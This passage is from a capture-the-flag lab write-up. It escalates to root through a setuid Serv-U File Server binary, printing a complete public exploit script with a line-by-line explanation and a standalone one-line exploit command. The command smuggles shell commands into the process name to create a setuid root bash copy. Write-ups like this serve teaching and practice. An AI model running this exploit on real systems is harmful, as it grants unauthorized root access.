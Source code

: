 Found `Serv-U File Server Version 15.1.6.25`.

**Searchsploit Result:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/Election1/images/a42.png)

Looks like we can leverage the `Serv-U` SUID binary to escalate to root!

**47173.sh:**
```bash
if ! test -u "/usr/local/Serv-U/Serv-U"; then
  echo '[-] /usr/local/Serv-U/Serv-U is not setuid root'
  exit 1
fi

echo "[*] Launching Serv-U ..."

/bin/bash -c 'exec -a "\";cp /bin/bash /tmp/sh; chown root /tmp/sh; chmod u+sx /tmp/sh;\"" /usr/local/Serv-U/Serv-U -prepareinstallation'

if ! test -u "/tmp/sh"; then
  echo '[-] Failed'
  /bin/rm "/tmp/sh"
  exit 1
fi

echo '[+] Success:'
/bin/ls -la /tmp/sh

echo "[*] Launching root shell: /tmp/sh"
/tmp/sh -p
```

In the above Bash exploit script, it has the following things:

1. Line 1-4:

- Checking the `/usr/local/Serv-U/Serv-U` has SUID bit set or not. If not, exit the script.

2. Line 8: (Exploit part)

- If the binary has SUID bit set, it'll first launch the `Serv-U` binary with `-prepareinstallation` option, then copy `/bin/bash` to `/tmp/sh`, change the owner of `/tmp/sh` to root, set SUID bit set and executable to `/tmp/sh`.

3. Line 10-14:

- If there is no `/tmp/sh` file, then exit the script, and echo the exploit has failed.

4. Line 16-20:

- If the `/tmp/sh` successfully copied, then it'll launch a root shell.

**We can just copy the exploit part and manually launch the root shell!**

**Exploit command:**
```bash
/bin/bash -c 'exec -a "\";cp /bin/bash /tmp/sh; chown root /tmp/sh; chmod u+sx /tmp/sh;\"" /usr/local/Serv-U/Serv-U -prepareinstallation'
```
